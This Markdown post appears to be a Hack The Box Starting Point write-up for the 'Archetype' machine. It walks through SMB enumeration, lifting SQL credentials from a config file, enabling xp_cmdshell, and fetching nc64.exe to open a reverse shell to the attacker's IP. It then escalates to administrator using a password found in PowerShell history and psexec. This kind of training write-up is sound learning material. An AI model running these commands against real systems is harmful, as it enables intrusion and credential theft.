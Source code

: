 ```yaml
---
title: Starting Point | Archetype
author: Zeropio
date: 2022-02-28
categories: [HackTheBox, StartingPoint]
tags: [htb]
permalink: /htb/starting-point/archetypr
---
```


# Enumeration

The nmap will show us:
```
> nmap -sV 10.129.221.7 -oN nmap 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-28 11:45 EST
Nmap scan report for 10.129.221.7
Host is up (0.049s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.15 seconds
```

We will try to see which folders are share.
```console
> smbclient -L //10.129.221.7/
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC

```

And then try to connect to **backups**:
```console
> smbclient //10.129.221.7/backups/
smb: \> ls
smb: \> get prod.dtsConfig
smb: \> exit
> cat prod.dtsConfig  
```

There we can see:
```
Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc
```



Now we can try to login with the scripts **mssqlclient.py**.
We will use the credentials provides by the **prod.dtsConfig** file.
```console
> sudo python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.221.7 -windows-auth
```

# Foothold

Now we are in the SQL server. With the command **xp_cmdshell** we can try to execute the shell, but we will recieve the following error:
```sql
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell'
```

Now we need to activate xp_cmdshell. With the following command we can see all the config aviable.
```sql
SQL> sp_configure
```

We need to activate the advanced options:
```sql
SQL> EXECUTE sp_configure 'show advanced options', 1;
SQL> RECONFIGURE;
```

And then we can activate the shell:
```sql
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
SQL> RECONFIGURE;
```

Now we can get the **user flag**:
```sql
SQL> xp_cmdshell type C:\Users\sql_svc\Desktop\user.txt
```

We will make a reverse shell.
First we will start a nc in the port 443.
```console
> sudo nc -lvnp 443
```

Now we will create a http server in the same folder where we have the **nc64.exe** file.
```console
> sudo python3 -m http.server 80 
```

We need to download that file in the server. Because we don't have root access we will use the normal user.
```sql
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.88/nc64.exe -outfile nc64.exe"
```

The **http.server** will receive the following line:
```
10.129.221.7 - - [28/Feb/2022 12:51:53] "GET /nc64.exe HTTP/1.1" 200 -
```

Now we execute the command and send the cmd to the 443 port (where we are listening):
```sql
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.88 443"
```

# Privilege Escalation

Now we will need to use **winPEAS** to do the privilege escalation. We will change the prompt to powershell, and download the file.
```console
C:\Users\sql_svc\Downloads>powershell
PS C:\Users\sql_svc\Downloads> wget http://10.10.14.88/winPEASx64.exe -outfile winPEASx64.exe
```

In the http.server we can see that works:
```console
C:\Users\sql_svc\Downloads>powershell
10.129.221.7 - - [28/Feb/2022 13:01:29] "GET /winPEASx64.exe HTTP/1.1" 200 -
```

No we will execute the script:
```console
PS C:\Users\sql_svc\Downloads> .\winPEASx64.exe
```

We can check the shell history for credentials (like **.bash_history**).
```console
PS C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> type ConsoleHost_history.txt
        net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

With the password we have now we will use another script from impacket, **psexec.py**:
```console
> python3 psexec.py administrator@10.129.221.7
```

We can use the password from before and now we are in the Administrator user:
```console
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
```
